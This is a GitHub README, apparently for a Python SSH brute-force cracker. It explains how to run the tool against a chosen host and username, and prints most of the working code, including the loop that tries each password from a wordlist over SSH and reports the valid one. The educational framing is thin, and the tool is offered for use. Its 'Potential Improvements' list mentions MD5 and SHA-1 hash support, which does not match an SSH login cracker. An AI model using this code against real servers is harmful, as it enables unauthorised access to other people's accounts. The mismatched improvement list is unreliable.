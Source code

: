 # SSH Brute-force Cracker

## Introduction

This is a basic SSH brute-force cracker script written in Python. The tool attempts to find the correct password for an SSH account by trying a list of passwords. This script is a practical example of how brute-force attacks work and can help you understand concepts related to SSH security and password cracking.

## Features

- **SSH Brute-force Attack**: Attempts to guess the SSH password for a given host and username.
- **Custom Port**: Supports specifying a custom port for the SSH service (default is 22).
- **Password List**: Uses a wordlist of possible passwords to attempt cracking.
- **Real-time Feedback**: Provides feedback on each attempt and reports the success or failure of each password attempt.

## Prerequisites

- Python 3.x installed on your system.
- The `pwn` and `paramiko` libraries for SSH connections and exceptions handling. You can install them using `pip`:
    ```bash
    pip install pwntools paramiko
    ```
- Basic understanding of SSH, brute-force attacks, and command-line operations.

## Usage

To run the SSH brute-force cracker, use the following command:

```bash
python3 ssh_bruteforce_cracker.py <host> <username> [--port <port>]
```
- `<host>`: The IP address or hostname of the target SSH server.
- `<username>`: The username to attempt to authenticate with.
- `--port <port>` (Optional): The port to connect to (default is 22).
## How It Works
1. **Argument Parsing:** 
   - The script uses argparse to handle command-line arguments for the SSH host, username, and optionally the port.

```python
parser = argparse.ArgumentParser(description="SSH Brute-force script")
parser.add_argument("host", type=str, help="The host to connect to")
parser.add_argument("username", type=str, help="The username to use")
parser.add_argument("--port", type=int, default=22, help="The port to connect to (default: 22)")
args = parser.parse_args()
```
2. **Retrieve Arguments:**
   - Extracts the host, username, and port from the command-line arguments.
  ```python
  host = args.host
  username = args.username
  port = args.port
  ```

3. **Start Brute-force Attempt:**
   - Opens the password list file and reads it line by line. For each password, it attempts to establish an SSH connection.
   - If the connection is successful, it reports the valid password and stops further attempts.
  ```python
  try:
    with open(password_list_path, "r") as password_list:
        for password in password_list:
            password = password.strip("\n")
            try:
                print("[{}] Attempting password: '{}'!".format(attempts, password))
                response = ssh(host=host, user=username, password=password, port=port, timeout=1)

                if response.connected():
                    print("[>] Valid password found: '{}'!".format(password))
                    response.close()
                    break
                response.close()
            except paramiko.ssh_exception.AuthenticationException:
                print("[X] Invalid Password")
            attempts += 1

  ```
4. **Exception Handling:**
   - Manages common issues such as missing password list files and general exceptions.
   ```python
    except FileNotFoundError:
     print(f"[!] Password list file not found: {password_list_path}")
    except Exception as e:
     print(f"[!] An error occurred: {str(e)}")
   ```

### Example:






## Potential Improvements
- Extend the script to support additional hash algorithms like MD5 or SHA-1.
- Implement more efficient techniques or parallel processing to speed up the brute-force attack.
- Include features like progress bars, estimated time, or interactive command-line options.

## Contributing
Feel free to submit issues or pull requests for improvements.

## Contact
For any questions or feedback, you can reach me at **syed4000saad@gmail.com**
